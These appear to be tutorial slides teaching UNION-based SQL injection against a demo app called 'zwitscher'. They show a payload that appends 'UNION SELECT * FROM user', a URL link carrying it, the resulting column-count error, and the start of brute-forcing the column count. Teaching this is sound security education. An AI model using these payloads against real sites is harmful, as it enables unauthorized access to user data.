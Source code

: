 
## Second try

Task: Get rid of interfering characters by commenting them out

--

## Second try

Input: <span style="color:crimson">#dog' UNION SELECT *  FROM user; --</span>

( **Important:** Space after delimiter )

```php
$sql = "SELECT *
        FROM zwitscher
        WHERE hashtag = '#dog' UNION SELECT * FROM user; -- ';
```

[Run code](../zwitscher/?search=%27+UNION+SELECT+*+FROM+user%3B+--+)

<div style="text-align: left"><i>"SQL Error: The used SELECT statements have a different number of columns."</i></div>

<div style="text-align: left">UNION requires the same number of fields in both result tables</div>

---

## What now?

- How many fields are there in the first query?
- We don't know :(

<br />
<br />
<br />

### Are we stuck?   

---

## What now? Brutforce!

- "1" returns a table with one field and one column, containing '1'
- "1, 2" returns a table with one column and two fields, '1' and '2'
- "1, 2, 3" returns ...
<br />
<br />

**Approach: Bruteforce... Increment until there is a match**

--

## What now? Brutforce!
